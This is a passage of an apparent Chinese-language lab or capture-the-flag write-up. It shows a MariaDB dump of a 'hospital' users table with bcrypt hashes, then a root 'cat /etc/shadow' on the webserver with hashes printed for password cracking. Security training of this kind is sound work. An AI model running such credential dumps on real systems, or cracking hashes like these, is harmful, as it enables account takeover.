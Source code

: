    ```
   | users              |
   +--------------------+
   1 row in set (0.000 sec)
   
   MariaDB [hospital]> select * from users \g;
   +----+----------+--------------------------------------------------------------+---------------------+
   | id | username | password                                                     | created_at          |
   +----+----------+--------------------------------------------------------------+---------------------+
   |  1 | admin    | $2y$10$caGIEbf9DBF7ddlByqCkrexkt0cPseJJ5FiVO1cnhG.3NLrxcjMh2 | 2023-09-21 14:46:04 |
   |  2 | patient  | $2y$10$a.lNstD7JdiNYxEepKf1/OZ5EM5wngYrf.m5RxXCgSud7MVU6/tgO | 2023-09-21 15:35:11 |
   |  3 | Yan      | $2y$10$eE3J1pKIyTA4.MOoWh2b7O4hFf2wOGZAPl8eOw5pbFXOW4LU5ker. | 2023-11-22 08:54:33 |
   +----+----------+--------------------------------------------------------------+---------------------+
   3 rows in set (0.001 sec)
   
   ERROR: No query specified
   ```

   

2. 转储werbserver机器上的/etc/shadow，来破解目标机器上的账户密码

   ```
   root@webserver:/var/www/html# cat /etc/shadow
   root:$y$j9T$s/Aqv48x449udndpLC6eC.$WUkrXgkW46N4xdpnhMoax7US.JgyJSeobZ1dzDs..dD:19612:0:99999:7:::
   daemon:*:19462:0:99999:7:::
   bin:*:19462:0:99999:7:::
   sys:*:19462:0:99999:7:::
   sync:*:19462:0:99999:7:::
   games:*:19462:0:99999:7:::
   man:*:19462:0:99999:7:::
   lp:*:19462:0:99999:7:::
   mail:*:19462:0:99999:7:::
   news:*:19462:0:99999:7:::
   uucp:*:19462:0:99999:7:::
   proxy:*:19462:0:99999:7:::
   www-data:*:19462:0:99999:7:::
   backup:*:19462:0:99999:7:::
   list:*:19462:0:99999:7:::
   irc:*:19462:0:99999:7:::
   _apt:*:19462:0:99999:7:::
   nobody:*:19462:0:99999:7:::
   systemd-network:!*:19462::::::
   systemd-timesync:!*:19462::::::
   messagebus:!:19462::::::
   systemd-resolve:!*:19462::::::
   pollinate:!:19462::::::
   sshd:!:19462::::::
   syslog:!:19462::::::
   uuidd:!:19462::::::
   tcpdump:!:19462::::::
   tss:!:19462::::::
   landscape:!:19462::::::
   fwupd-refresh:!:19462::::::
   drwilliams:$6$uWBSeTcoXXTBRkiL$S9ipksJfiZuO4bFI6I9w/iItu5.Ohoz3dABeF6QWumGBspUW378P1tlwak7NqzouoRTbrz6Ag0qcyGQxW192y/:19612:0:99999:7:::
   lxd:!:19612::::::
   mysql:!:19620::::::
   ```